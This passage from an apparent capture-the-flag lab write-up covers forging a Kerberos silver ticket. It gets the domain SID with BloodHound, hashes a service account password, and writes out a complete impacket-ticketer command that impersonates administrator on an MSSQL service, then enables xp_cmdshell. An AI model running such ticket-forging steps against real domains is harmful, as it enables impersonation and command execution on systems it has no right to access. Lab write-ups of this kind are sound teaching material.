 I got the domain sid using bloodhound:

![](../img/30.png)

I used md5decrypt.net to encrypt svc_mssql's password in ntlm.

Having the information we need, we can now craft the silver ticket using impacket's `ticketer`:
```
impacket-ticketer -nthash 69596c7aa1e8daee17f8e78870e25a5c -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn MSSQLSvc/breachdc.breach.vl:1433 administrator
```
Import it and connect to the SQLSERVER using the ticket and you will be able to enable `xp_cmdshell`.